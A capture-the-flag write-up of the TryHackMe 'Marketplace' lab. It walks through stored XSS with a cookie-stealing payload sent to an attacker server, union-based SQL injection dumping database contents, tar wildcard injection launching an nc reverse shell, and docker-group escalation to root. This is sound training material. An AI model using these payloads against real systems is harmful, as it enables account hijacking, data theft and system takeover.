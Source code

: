 ```yaml
---
title: Marketplace Tryhackme Writeup
published: true
---
```


Today I bring you the writeup of [marketplace](https://tryhackme.com/room/marketplace), a tryhackme machine focused on web exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP
```

With -p- we indicate that we want it to look at all ports and the --min-rate 5000 to do it very fast.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_1.png)

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p22,80,32768 --min-rate 5000 IP
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_2.png)

We see that we get the robots.txt with /admin then we will enter

We investigate ports 80 and 32768 and go to exactly the same web, so we will skip port 32768.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/web_home.png)

If we go to /admin it tells us this

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin.png)

We are going to register a new account to be able to see the product options and so on.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/registrar.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/logeo.png)

Let's enter a product and click on the two options below, the one to report the product and the one to write to the product creator.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/producto.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensage_creador.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_mandado.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/reportar_producto.png)

When reporting we get a message that the admin has checked the product; we have an option to create a product, we go there.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_despues_de_reportar_en_messages.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/new_listing.png)

Let's check if the creation of a product has xss and we could try to steal cookies from the admin when checking a report

```shell
<script>alert(1)</script>
<script>alert(2)</script>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nuevo_producto_con_xss_prueba.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_1_ok.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_2_ok.png)

We see that it is vulnerable, we are going to create another product to steal the cookies, but first we are going to open a python server to get them.

```shell
python3 -m http.server
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/python_server_para_xss_cookies_al_reportar.png)

Now to make the product for the cookies.

```shell
<img src=x onerror=this.src="http://IP:Port/?c="+document.cookie>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/Producto_roba_cookies.png)

When we enter the product and hit report we will get the admin cookies, now let's change ours for those and go to /admin.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/cookie_admin.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/panel_admin_con_cookies.png)

We are going to enter in some user that we get.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin_user_1.png)

If we see the url we can try a sqli.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/prueba_sqli.png)

It seems vulnerable, let's try to exploit it, with sqlmap I couldn't because the admin cookie changes every x time so you will have to get it again.

Let's see how many fields you have to write to do our tests.

```shell
user=1 order by 4-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/numero%20de%20columnas.png)

Now let's try to get the databases.

```shell
user=0 union select 1,group_concat(0x7c,schema_name,0x7c),3,4 from information_schema.schemata-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/databases.png)

We are interested in the database marketplace, now let's take out the tables it has.

```shell
user=0 union select 1,group_concat(0x7c,table_name,0x7c),3,4 from information_schema.tables where table_schema='marketplace'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/tablas.png)

We see a messages table that seems quite interesting since the others are in the admin panel itself, at least, apparently.

```shell
user=0 union select 1,group_concat(0x7c,column_name,0x7c),3,4 from information_schema.columns where table_name='messages'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nombre%20de%20columnas%20de%20tabla%20mensajes.png)

Let's take a look at the message_content to see if it has anything interesting.

```shell
user=0 union select 1,group_concat(0x7c,message_content,0x7c),3,4 from marketplace.messages-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/contenido%20de%20los%20mensajes,%20donde%20hay%20ssh%20password.png)

We see a password, and we have several usernames of accounts created before ours which are:
system
michael
jake

Let's try to connect via ssh to those accounts.

```shell
ssh jake@IP
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/shell%20con%20jake.png)

Let's look at the sudo permissions you have.

```shell
sudo -l
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/sudo%20-l%20jake.png)

We see that you have permissions with the user michael in a script, if we read that script we see that it makes a backup of everything in the /opt/backups folder.

To escalate privileges to michael we can use the [wildcards](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks#tar) of tar so that we get a reverse when we make the backup.

```shell
nc -lvp PORT
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/abrimos%20puerto.png)

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh
chmod 777 backup.tar
sudo -u michael /opt/backups/backup.sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/comandos_movimiento_lateral.png)

We get the reverse and we are already michael.

```shell
id
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/grupo%20docker%20para%20escalar.png)

We see that it is inside the [docker](https://gtfobins.github.io/gtfobins/docker/#shell) group, let's use that to escalate privileges.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escalada%20a%20root.png)

And that's all! thanks for reading.
